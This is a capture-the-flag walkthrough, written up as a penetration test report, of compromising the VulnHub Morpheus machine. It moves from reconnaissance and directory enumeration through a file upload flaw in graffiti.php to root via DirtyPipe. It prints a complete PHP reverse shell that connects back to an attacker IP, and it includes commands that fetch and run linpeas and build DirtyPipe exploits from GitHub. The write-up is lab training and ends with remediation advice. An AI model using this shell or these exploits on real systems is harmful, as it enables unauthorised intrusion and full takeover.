







# Penetration Testing Report: Morpheus CTF Machine
**Download link below :**
```bash
https://download.vulnhub.com/matrix-breakout/matrix-breakout-2-morpheus.ova
```

## Executive Summary
This report documents the complete penetration testing process of the Morpheus CTF machine, detailing the reconnaissance, exploitation, and privilege escalation phases that led to full system compromise.

## 1. Network Reconnaissance

### Initial Network Scanning
**Command:**
```bash
nmap 10.0.2.0/24
```

**Output:**
```
Starting Nmap 7.95 (https://nmap.org) at 2025-11-15 11:43 CST
Nmap scan report for 10.0.2.6
Host is up (0.0013s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
81/tcp open  hosts2-ns
MAC Address: EA:AA:A8:E9:14:D3 (Unknown)

Nmap scan report for 10.0.2.15
Host is up (0.000345 latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
53/tcp open  domain
MAC Address: C2:95:6D:C3:1E:64 (Unknown)

Nmap scan report for 10.0.2.2
Host is up (0.0000020s latency).
All 1000 scanned ports on 10.0.2.2 are in ignored states.
Not shown: 1000 closed tcp ports (reset)

Nmap done: 256 IP addresses (3 hosts up) scanned in 2.27 seconds
```

**Analysis:** Identified target machine at 10.0.2.6 with open ports 22 (SSH), 80 (HTTP), and 81 (hosts2-ns).

## 2. Web Application Assessment

### Initial Web Exploration
The main webpage displayed:



The page contained a welcome message for the Boot2Root CTF Morpheus:1 challenge, indicating the scenario involves investigating a computer that Cypher has locked others out of SSH access.

### Web Server Fingerprinting
**Command:**
```bash
whatweb 10.0.2.6
```

**Output:**
```
http://10.0.2.6 [200 OK] Apache[2.4.51], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.51 (Debian)], IP[10.0.2.6], Title[Morpheus:1]
```

**Vulnerability Assessment:** Apache 2.4.51 is not vulnerable to CVE-2021-41773 and CVE-2021-42013 path traversal and RCE vulnerabilities as it contains the patches for these issues.

### Source Code Analysis
Viewing page source revealed no additional information beyond the visible content.

### Steganography Check
**Command:**
```bash
steghide --extract -sf trinity.jpeg
```
No hidden data found (password required).

## 3. Directory Enumeration

### DIRB Scan
**Command:**
```bash
dirb http://10.0.2.6
```

**Output:**
```
DIRB v2.22
By The Dark Raver
START TIME: Sat Nov 15 12:03:28 2025
URL_BASE: http://10.0.2.6/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
GENERATED WORDS: 4612
Scanning URL: http://10.0.2.6/
+ http://10.0.2.6/index.html (CODE:200|SIZE:348)
=> DIRECTORY: http://10.0.2.6/javascript/
+ http://10.0.2.6/robots.txt (CODE:200|SIZE:47)
+ http://10.0.2.6/server-status (CODE:403|SIZE:273)
-- Entering directory: http://10.0.2.6/javascript/
=> DIRECTORY: http://10.0.2.6/javascript/jquery/
-- Entering directory: http://10.0.2.6/javascript/jquery/
+ http://10.0.2.6/javascript/jquery/jquery (CODE:200|SIZE:287600)
```

### Gobuster Scan with Extensions
**Command:**
```bash
gobuster dir -u http://10.0.2.6 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```

**Output:**
```
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)

[+] Url: http://10.0.2.6
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.6
[+] Extensions: php,html,txt
[+] Timeout: 105
Starting gobuster in directory enumeration mode

/.html (Status: 403) [Size: 273]
/index.html (Status: 200) [Size: 348]
/javascript (Status: 301) [Size: 309]
/robots.txt (Status: 200) [Size: 47]
/graffiti.txt (Status: 200) [Size: 139]
/graffiti.php (Status: 200) [Size: 451]
/.php (Status: 403) [Size: 273]
/server-status (Status: 403) [Size: 273]
Progress: 882240 / 882244 (100.00%)
Finished
```

## 4. Discovered Endpoints

### graffiti.txt
**Content:**
```
Mouse here - welcome to the Nebby!
Make sure not to tell Morpheus about this graffiti wall.
It's just here to let us blow off some steam.
```

### graffiti.php
Initial interface:



Testing message functionality:



Message display functionality:



## 5. Exploitation

### File Upload Vulnerability Discovery
The graffiti.php application was found to be vulnerable to arbitrary file upload through parameter manipulation.

### Reverse Shell Setup

**Metasploit Handler Configuration:**
```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.0.2.2
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > exploit
```

### PHP Reverse Shell Code
```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.0.2.2';  // ATTACKER IP
$port = 4444;       // ATTACKER PORT
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

// Daemonise ourself if possible to avoid zombies later
if (function_exists('pcntl_fork')) {
    // Fork and have the parent process exit
    $pid = pcntl_fork();
    
    if ($pid == -1) {
        printit("ERROR: Can't fork");
        exit(1);
    }
    
    if ($pid) {
        exit(0);  // Parent exits
    }

    // Make the current process a session leader
    if (posix_setsid() == -1) {
        printit("Error: Can't setsid()");
        exit(1);
    }

    $daemon = 1;
} else {
    printit("WARNING: Failed to daemonise. This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
    printit("$errstr ($errno)");
    exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin
   1 => array("pipe", "w"),  // stdout
   2 => array("pipe", "w")   // stderr
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
    printit("ERROR: Can't spawn shell");
    exit(1);
}

// Set everything to non-blocking
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
    // Check for end of TCP connection
    if (feof($sock)) {
        printit("ERROR: Shell connection terminated");
        break;
    }

    // Check for end of STDOUT
    if (feof($pipes[1])) {
        printit("ERROR: Shell process terminated");
        break;
    }

    // Wait until a command is sent down $sock, or some command output is available
    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

    // If we can read from the TCP socket, send data to process's STDIN
    if (in_array($sock, $read_a)) {
        if ($debug) printit("SOCK READ");
        $input = fread($sock, $chunk_size);
        if ($debug) printit("SOCK: $input");
        fwrite($pipes[0], $input);
    }

    // If we can read from the process's STDOUT, send data down tcp connection
    if (in_array($pipes[1], $read_a)) {
        if ($debug) printit("STDOUT READ");
        $input = fread($pipes[1], $chunk_size);
        if ($debug) printit("STDOUT: $input");
        fwrite($sock, $input);
    }

    // If we can read from the process's STDERR, send data down tcp connection
    if (in_array($pipes[2], $read_a)) {
        if ($debug) printit("STDERR READ");
        $input = fread($pipes[2], $chunk_size);
        if ($debug) printit("STDERR: $input");
        fwrite($sock, $input);
    }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
    global $daemon;
    if (!$daemon) {
        print "$string\n";
    }
}
?>
```

### Exploitation Process
Using Burp Suite to intercept and modify the request:





**Netcat Listener:**
```bash
nc -lnvp 4444
```

**Reverse Shell Connection:**
```
listening on [any] 4444
connect to [10.0.2.2] from (UNKNOWN) [10.0.2.6] 53526
Linux morpheus 5.10.0-9-amd64 #1 SMP Debian 5.10.70-1 (2021-09-30) x86_64 GNU/Linux
20:14:27 up 2:32, 0 users, load average: 0.02, 0.05, 0.14
USER TTY FROM LOGIN IDLE JCPU PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

## 6. Initial Compromise

### Flag Discovery
**Command:**
```bash
cat FLAG.txt
```

**Output:**
```
Flag 1!
You've gotten onto the system. Now why has Cypher locked everyone out of it?
Can you find a way to get Cypher's password? It seems like he gave it to Agent Smith, so Smith could figure out where to meet him.
Also, pull this image from the webserver on port 80 to get a flag.
/.cypher-neo.png
```

## 7. Privilege Escalation

### System Enumeration with LinPEAS
**Download and Execution:**
```bash
cd /tmp
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```




**Vulnerability Identified:** DirtyPipe (CVE-2022-0847)

### DirtyPipe Exploitation
**Exploit Download and Compilation:**
```bash
git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits
cd CVE-2022-0847-DirtyPipe-Exploits
./compile.sh
ls
```

**Output:**
```
README.md compile.sh exploit-1.c exploit-2.c
```

**Exploit Attempt 1:**
```bash
./exploit-1
```
```
Backing up /etc/passwd to /tmp/passwd.bak ...
Setting root password to "piped"
system() function call seems to have failed :(
Usage: ./exploit-2 SUID
```

**SUID Binary Enumeration:**
```bash
find / -perm -4000 2>/dev/null
```
```
/usr/bin/su
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/sudo
/usr/bin/umount
/usr/bin/chfn
/usr/sbin/xtables-legacy-multi
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

**Successful Privilege Escalation:**
```bash
./exploit-2 /usr/bin/sudo
whoami
```
```
root
```


## 8. Conclusion

The penetration test successfully demonstrated:

1. **Initial Access**: Achieved through file upload vulnerability in graffiti.php
2. **Lateral Movement**: Gained www-data user access via reverse shell
3. **Privilege Escalation**: Exploited DirtyPipe vulnerability to gain root access
4. **Full Compromise**: Complete system control achieved

**Critical Vulnerabilities Identified:**
- Arbitrary file upload in web application
- Unpatched kernel vulnerability (CVE-2022-0847)
- Improper input validation
- Lack of file upload restrictions

**Recommendations:**
- Implement strict file upload validation
- Regularly update kernel and system packages
- Employ proper input sanitization
- Restrict file permissions and SUID binaries
- Implement web application firewall rules

The system was completely compromised, highlighting the importance of comprehensive security measures including regular patching, proper input validation, and least privilege principles.